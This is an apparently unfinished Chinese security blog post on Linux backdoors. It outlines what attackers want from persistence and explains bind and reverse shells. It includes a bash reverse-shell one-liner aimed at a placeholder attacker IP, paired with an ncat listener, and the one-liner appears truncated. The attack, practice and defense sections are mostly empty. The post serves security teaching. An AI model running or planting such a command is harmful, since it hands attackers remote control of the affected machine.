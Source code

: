 ```yaml
---
title: Linux 后门攻防实践
category: Sec
---
```


## Linux 后门攻防实践

### 0x00 前述

后门作为`post penetration`用于维持访问的主要手段，往往五花八门。从最简单的`shell`、`reverse shell`到`rootkit`，十分丰富。

后门有优劣之分。一般来说，我们希望后门尽可能多地具有以下几个功能（特点）：

- 提供一个远程攻击者能够随时使用的`root shell`
- 在靶机上能够具有良好的隐蔽性
- 与远程攻击者之间的通信具有良好的隐蔽性
- 提供的`root shell`具有访问控制功能（不能被其他攻击者使用）
- 安装过程不那么繁琐

当然，靶机环境的千差万别这一客观因素也导致后门的使用需要根据具体环境来安排。

我们对后门的安装时间点（或者说是渗透结束，准备做`post penetration`）做以下定义：

**攻击者使用一些渗透方式（如远程缓冲区溢出，本地提权等），已经获得靶机上的root权限（能够暂时性地与一个`root shell`交互）。**

本文将对一些后门从`攻`、`防`两个角度进行实践。对于一些简单的后门将说明其原理；对于一些复杂的后门，如较为高级的`rootkits`等，将另起文章进行说明。

### 0x01 shell&反弹shell

#### 0x010 关于

首先提一下`shell`和`反弹shell`。严格来说这两者本身并不具备维持访问的功能，仅仅提供一个shell。但是如果把它们和一些其他的工具结合，如`crontab`或`nohup`等，就能构成后门。这里的`shell`指的是靶机监听某端口，一旦有外部流量接入就分配一个shell；`反弹shell`则指攻击者的机器上监听某端口，靶机主动去连接这个端口并分配给攻击者一个shell。

`反弹shell`在以下两种环境中具有独特优势：

1. 靶机没有公网IP（或者说，没有能够直接被攻击者访问到的IP）
2. 靶机本身或所在网络的防火墙对出口流量不做限制或限制小

#### 0x011 shell

#### 0x012 反弹shell：bash

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
bash -i >& /dev/tcp/[ATTACKER-IP]/10000 0>&
```

截图如下：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-0.png)

![]({{ site.url }}/images/linux-backdoor/bash-reverse-1.png)

注意上面的靶机只有一个内网地址`192.168.246.xxx`。

### 0x02 后门攻击实践

### 0x03 后门防御实践

### 0x04 参考

- [Linux下的icmp shell后门](http://vinc.top/2016/06/06/linux%E4%B8%8B%E7%9A%84icmp-shell%E5%90%8E%E9%97%A8/)
- [Linux后门](http://rcoil.me/2017/04/Linux%E5%B0%8F%E5%90%8E%E9%97%A8/)
- [Linux后门技术研究之ping后门](http://www.weixianmanbu.com/article/186.html)
- [linux后门N种姿势](http://www.vipread.com/library/item/594)
- [Linux后门整理合集（脉搏推荐）](https://www.secpulse.com/archives/59674.html)
- [Linux渗透之OpenSSH后门](http://zjw.dropsec.xyz/%E6%B8%97%E9%80%8F/%E6%B5%8B%E8%AF%95/2017/09/26/Linux%E6%B8%97%E9%80%8F%E4%B9%8BOpenSSH%E5%90%8E%E9%97%A8.html)
- [Linux软连接ssh后门之我见](http://blackwolfsec.cc/2017/03/24/Linux_ssh_backdoor/)
- [linux下反弹shell的几种方法](http://blog.csdn.net/u012985855/article/details/64117187?utm_source=itdadao&utm_medium=referral)
- [Linux下反弹shell笔记](https://www.cnblogs.com/deen-/p/7237327.html)